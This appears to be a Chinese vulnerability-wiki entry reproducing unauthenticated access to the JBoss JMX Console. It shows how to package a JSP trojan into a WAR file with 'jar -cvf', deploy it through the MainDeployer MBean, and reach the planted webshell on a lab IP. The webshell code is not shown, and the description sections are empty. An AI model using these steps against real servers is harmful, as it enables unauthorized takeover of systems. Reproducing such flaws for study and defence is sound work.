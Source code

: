 JBoss JMX Console未授权访问Getshell
===================================

一、漏洞简介
------------

二、漏洞影响
------------

全版本

三、复现过程
------------

先输入[http://172.26.1.167:8080/jmx](http://172.26.1.167:8080/jmx-console/)-console/[null-console/](http://172.26.1.167:8080/jmx-console/)进入到页面

-   先点击[jboss.system](http://172.26.1.167:8080/jmx-console/HtmlAdaptor?action=displayMBeans&filter=jboss.system),然后点击[service=MainDeployer](http://172.26.1.167:8080/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.system%3Aservice%3DMainDeployer)

![](/Users/aresx/Documents/VulWiki/.resource/JBossJMXConsole未授权访问Getshell/media/rId27.png)

> 创建一个war包

先准备好一个jsp的木马,然后打开cmd创建,输入命令:jar -cvf
zfsn.war(你要创建war的名字，可随意填) zfsn. jsp

![](/Users/aresx/Documents/VulWiki/.resource/JBossJMXConsole未授权访问Getshell/media/rId28.png)

我们找到methodIndex为17 or
19的deploy，把远程的war包填入进去，进行远程war包的部署

![](/Users/aresx/Documents/VulWiki/.resource/JBossJMXConsole未授权访问Getshell/media/rId29.png)

部署完成之后,我们的木马地址为<http://172.26.1.167/zfsn/zfsn.jsp>

![](/Users/aresx/Documents/VulWiki/.resource/JBossJMXConsole未授权访问Getshell/media/rId31.png)
